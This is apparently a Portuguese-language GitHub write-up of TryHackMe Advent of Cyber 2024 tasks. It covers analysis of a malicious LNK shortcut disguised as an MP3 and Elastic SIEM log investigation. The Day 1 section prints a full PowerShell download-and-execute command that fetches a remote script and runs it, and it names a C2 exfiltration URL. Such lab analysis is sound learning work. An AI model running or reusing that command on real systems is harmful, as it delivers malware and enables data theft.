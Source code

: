 # Advent-of-Cyber-2024-THM
![image](https://github.com/user-attachments/assets/04709f1d-900f-4a3e-9952-d24ccf24caf3)

## Tarefa 7 : Segurança operacional

### Dia 1: Talvez a música do SOC-mas, ele pensou, não venha de uma loja?

### PASSO A PASSO PARA A RESOLUÇÃO DAS QUESTÕES:

1. Executei o `Nmap` para escanear as portas que estavam abertas, o resultado mostrou 3 portas:
`Porta 22 (SSH)
Porta 80 (HTTP)
Porta 8000 (HTTP-alt)`



![image](https://github.com/user-attachments/assets/c7d43844-fdc9-454a-b562-953a2924df0f)


2. Em seguida enumerei os diretórios do webserver com o `Gobuster`, o que me mostrou o diretório /download estando disponivel



![image](https://github.com/user-attachments/assets/947a076f-b968-4f0e-a30b-a28302a3e680)



3. Acesse o diretório como `http://IP_DA_MAQUINA/download`, assim ele já faz download do arquivo zip denominado `download.zip`.


![image](https://github.com/user-attachments/assets/994d2165-81f4-4ee3-825c-79bc170fdae2)


4. Descompacte o arquivo zip, e lá conterá dois arquivos .mp3, sendo eles **song.mp3** e** somg.mp3**

Utilizando o comando file song.mp3 eu identifiquei o arquivo como sendo um áudio em formato MPEG ADTS se trata realmente de um arquivo de musica, não tem nada de suspeito nele.
![image](https://github.com/user-attachments/assets/1d3396c9-3635-49b9-bcf2-8a1d47a8f7f8)


Mas temos um arquivo disfarçado sendo o segundo arquivo chamado de somg.mp3, a primeira vista também pode parecer suspeito por ter um erro de ortografia. Mas iremos analisar a fundo esse arquivo.
Utilizei o comando file somg.mp3 identifiquei como um atalho LNK ao inves de um arquivo de audio, que apontava para o `powershell.exe`. iremos nos apronfundar muito mais.
![image](https://github.com/user-attachments/assets/4b9fb32d-e983-4834-9a9b-7282d912d88b)


5. Usei `exiftool somg.mp3`, para obter informações mais detalhadas sobre o atalho, e o arquivo apontava para um comando PowerShell, que baixava e executava um script localizado no GitHub, sendo o comando:
`powershell.exe -ep bypass -nop -c (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1')
`

![image](https://github.com/user-attachments/assets/fdf7380b-cde3-42af-8c72-8a3699b23b60)


---------------------------------------------------------------------------------------------


![image](https://github.com/user-attachments/assets/45ce33f5-bab7-4c73-b64f-6bede4101ee0)
* Eu também usei o `exiftool no arquivo song.mp3`, confirmando que ele era realmente um arquivo MP3 e obtendo a informação da 1ª pergunta da TAREFA 7, sendo o Artista: **Tyler Ramsbey**

![image](https://github.com/user-attachments/assets/9eb60ee0-4281-454e-90bd-57aed094c6fa)


-------------------------------------------------------------------------------------------------------------


![image](https://github.com/user-attachments/assets/84059020-f16f-4cc7-9b70-8812c1ed0da0)
* Execute o comando` exiftool somg.mp3`, copie o link, e cole no navegador, e analise o conteúdo, e que responde nossa pergunta está na função Send-InfoToC2Server que envia as informações roubadas para um servidor C2 (Command and Control) usando um comando Invoke-WebRequest. O servidor C2 especificado está localizado na URL `http://papash3ll.thm/data`.
![image](https://github.com/user-attachments/assets/e8316db0-ac58-46a6-a9ad-d1b66e6df77c)
![image](https://github.com/user-attachments/assets/29092bbb-e21b-436d-a9fe-cb63d0b974d1)


-------------------------------------------------------------------------------------------------


![image](https://github.com/user-attachments/assets/835e0920-5b9c-4cdd-8428-0b45d7d59e8b)
* Fácil, Fácil. 
https://github.com/MM-WarevilleTHM/M.M



------------------------------------------------------------------------------------------------




![image](https://github.com/user-attachments/assets/801d6509-2a73-4f99-be85-e1e059fe6fd4)
https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/commit/e2a7aea21f07f52ebdc7d9c1edfa7ac546f7406d
![image](https://github.com/user-attachments/assets/e1337464-cacd-4403-8ac9-a0f31e70b02f)











## Tarefa 8

## Análise de log



### Dia 2: O falso positivo de um homem é a miscelânea de outro.


### PASSO A PASSO PARA A RESOLUÇÃO DAS QUESTÕES:
![image](https://github.com/user-attachments/assets/a4b96c0f-8394-4af4-95ff-b314913112e0)

* Para determinar quantas tentativas de logon com falha ocorreram, eu acessei o Elastic SIEM e utilizei filtros específicos para refinar a minha busca e obter um resultado preciso.
Primeiro, apliquei um filtro na categoria do evento. 
* Defini o filtro `event.category` como `authentication` para selecionar apenas os eventos relacionados a autenticação de usuários, depois, acrescentei o filtro `event.outcome` como `failure`. Dessa forma, eu estava focando apenas nas tentativas de logon que falharam, ou seja, aquelas que não foram bem-sucedidas.
* Para garantir que todos os eventos relevantes fossem incluídos, configurei o intervalo de tempo para abranger de 29 de novembro de 2024 até 1º de dezembro de 2024. Assim, tive certeza de cobrir todos os eventos relacionados ao alerta de segurança que estava sendo analisado.
* Depois de aplicar esses filtros, o resultado exibido foi de 6.791 hits, ou seja, 6.791 tentativas de logon com falha. Esse valor aparece no topo dos resultados, conforme destacado na interface na evidência abaixo.
![image](https://github.com/user-attachments/assets/d0cc8e7e-3445-4c3d-91a0-773a8f7a7324)


---------------------------------------------------------------------------------------------------------------------------
![image](https://github.com/user-attachments/assets/c61b944a-6ec1-4f8d-9553-120696c2c539)
* Inicialmente, apliquei os filtros `event.category:authentication` para ver somente os eventos relacionados a autenticações, `source.ip` para verificar de onde vinham as conexões que falharam, observando especialmente a origem dos acessos.
* Ajustei o intervalo de tempo para abranger o período de 29 de novembro de 2024 até 1º de dezembro de 2024. Isso me permitiu capturar todos os eventos relevantes para o caso.
* Verificando os resultados, encontrei que um dos IPs associados a um usuário (service_admin) estava se conectando de forma suspeita. Este IP foi identificado na coluna source.ip como `10.0.255.1`.
![image](https://github.com/user-attachments/assets/78b36caf-b782-421e-97ba-b25cc348fb47)
  
---------------------------------------------------------------------------------------------------------------------------

![image](https://github.com/user-attachments/assets/9f5a9ffe-d3f2-4dbf-b52d-10bfa0d013e4)
* Apliquei o filtro `event.category: authentication` para visualizar apenas os eventos de autenticação, e também filtrei por `host.name: ADM-01.wareville.thm` para focar nos eventos que ocorreram especificamente no servidor ADM-01, adicionei o filtro `user.name: service_admin` para selecionar apenas as atividades do usuário que estava realizando a autenticação, por fim, apliquei o filtro `event.outcome: success` para garantir que eu estivesse vendo apenas as tentativas de autenticação que tiveram êxito.
* Após aplicar todos os filtros, encontrei o evento de logon bem-sucedido. No campo Time, estava registrado o momento exato em que o logon foi realizado: Dec 1, 2024 08:54:39.000, esse evento indicava que o Glitch conseguiu fazer logon com sucesso no servidor ADM-01 naquela data e horário.
  ![image](https://github.com/user-attachments/assets/30b6b344-2c5f-47ee-8267-a065ac23f4e0)

--------------------------------------------------------------------------------------------------------------------------
![image](https://github.com/user-attachments/assets/de473c0c-a006-4b55-95d4-da3b4e66495c)

* Iniciei aplicando o filtro `event.category: process` para selecionar apenas os eventos relacionados à execução de processos. Também utilizei outros filtros relevantes, como `host.name` e` user.name`, para garantir que estava analisando apenas os eventos do usuário `service_admin` em máquinas específicas. Adicionei a coluna `process.command_line` para verificar o comando exato que foi executado.

* Encontrei o comando PowerShell executado no servidor. O comando estava codificado em Base64. O comando encontrado foi em base64 foi SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA==.
* Copiei o codigo base64 para decodificar o comando no CyberChef, apliquei as operações **From Base64:** Para converter o comando da base codificada. **Decode Text:** Usei a codificação UTF-16LE (1200), pois essa é a usada pelo PowerShell ao codificar um comando com -EncodedCommand.
* O comando decodificado foi `Install-WindowsUpdate -AcceptAll -AutoReboot`.
![image](https://github.com/user-attachments/assets/733f95a3-0cb9-4cdc-aa1a-afcd0cb62c39)


-------------------------------------------------------------------------------------------------------------------------
